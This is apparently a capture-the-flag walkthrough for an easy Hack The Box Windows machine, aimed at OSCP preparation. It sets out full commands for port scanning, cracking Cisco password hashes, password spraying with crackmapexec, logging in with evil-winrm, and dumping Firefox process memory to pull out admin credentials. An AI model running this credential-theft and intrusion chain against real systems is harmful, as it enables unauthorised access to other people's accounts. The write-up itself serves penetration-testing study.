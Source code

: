 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## ⚙️ Recon

**Nmap Scan**
```bash
nmap -p- --min-rate 10000 -oA nmap-alltcp 10.10.10.149
```
- Port 80: HTTP Web Portal

---

## 🌐 [Web Enumeration](HTTP)

**Browse Web Portal**
- Navigate to: `http://10.10.10.149`
- Found a **Guest login** → displayed usernames and an **attachment** with Cisco password hashes.

---

## 🔓 Cracking Hashes

### 🧩 Type 5 Hash
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### 🧩 Type 7 Hash
Use online Cisco Type 7 decoder (e.g. https://insecure.org/sploits/cisco.password.decoder.html)

---

## 👤 User Enumeration

**RID Brute Force with [CrackMapExec](SMB.md)**
```bash
crackmapexec smb 10.10.10.149 --rid-brute
```

**Password Spray**
```bash
crackmapexec smb 10.10.10.149 -u usernames.txt -p crackedpass
```

---

## 🔐 Gaining Remote Access

**Connect via Evil-WinRM or WinRM manually**
```bash
evil-winrm -i 10.10.10.149 -u ch4rl3s -p [cracked_password]
```

🎉 Found `user.txt` in `C:\Users\ch4rl3s\Desktop`

---

## 🕵️ Investigating the System

**Check files**
```powershell
Get-ChildItem -Path C:\Users\ch4rl3s\Documents\
type C:\Users\ch4rl3s\Documents\todo.txt
```

**Enumerate Processes**
```powershell
Get-Process | where { $_.Path -like "*firefox*" }
```

---

## 📦 Dumping and Analyzing Firefox Memory

**Dump Process Memory**
```powershell
procdump64.exe -ma firefox_pid firefox.dmp
```

**Transfer to attacker machine**
- Use SMB or upload via Evil-WinRM.

**Analyze Memory**
```bash
strings firefox.dmp | grep -i password
```
🎯 Recovered admin credentials!

---

## 🚀 Escalating to Administrator

**Reuse credentials with Evil-WinRM**
```bash
evil-winrm -i 10.10.10.149 -u administrator -p [discovered_password]
```

🎉 Grab `root.txt` from `C:\Users\Administrator\Desktop\`

---

## ✅ Conclusion

- Web app led to leaked Cisco hashes
- Cracking hashes enabled password spray
- Dumped Firefox process memory to recover admin creds
- Completed full escalation path!